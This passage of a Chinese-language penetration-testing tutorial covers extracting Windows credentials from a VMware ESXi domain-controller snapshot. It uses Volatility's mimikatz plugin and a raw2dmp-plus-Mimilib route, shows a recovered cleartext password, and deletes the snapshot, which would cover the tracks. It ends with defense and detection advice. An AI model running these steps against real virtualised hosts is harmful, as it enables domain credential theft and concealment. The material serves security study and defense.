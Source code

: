 输出：

```
Volatility Foundation Volatility Framework 2.6.1
mimikatz                   - mimikatz offline
```

安装成功

加载mimikatz插件的命令如下：

```
python2 vol.py -f "DC1-Snapshot1.vmem" --profile="Win2016x64_14393" mimikatz
```

输出结果：

```
Module   User             Domain           Password                                
-------- ---------------- ---------------- ----------------------------------------
wdigest  admin            DC1              Password@1
```

**补充：**

读取lsass进程中保存的凭据还可以使用以下方法：

1. 将镜像文件转成Crash Dump文件

```
./volatility_2.6_lin64_standalone -f "./vmfs/volumes/62a735a8-ad916179-40dd-000c296a0829/DC1/DC1-Snapshot1.vmem" --profile="Win2016x64_14393" raw2dmp -O copy.dmp
```

2. 使用Mimilib从dump文件中导出口令

详细方法可参考之前的文章[《渗透技巧——使用Mimilib从dump文件中导出口令》](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BD%BF%E7%94%A8Mimilib%E4%BB%8Edump%E6%96%87%E4%BB%B6%E4%B8%AD%E5%AF%BC%E5%87%BA%E5%8F%A3%E4%BB%A4)

### 5.删除快照

```
vim-cmd vmsvc/snapshot.remove 1 5
```

## 0x06 防御检测

### 1. 防御

内网VMware ESXI及时更新补丁

关闭内网VMware ESXI的ssh登录功能

### 2. 检测

查看内网VMware ESXI登录日志

查看虚拟机快照镜像标志`snapshotIndex`是否异常，对于新的虚拟机，新建快照标志`snapshotIndex`从`1`开始累加，删除快照镜像`不会影响`snapshotIndex`，例如删除`snapshotIndex`为`1`的快照，再次创建快照时`snapshotIndex`为`2`
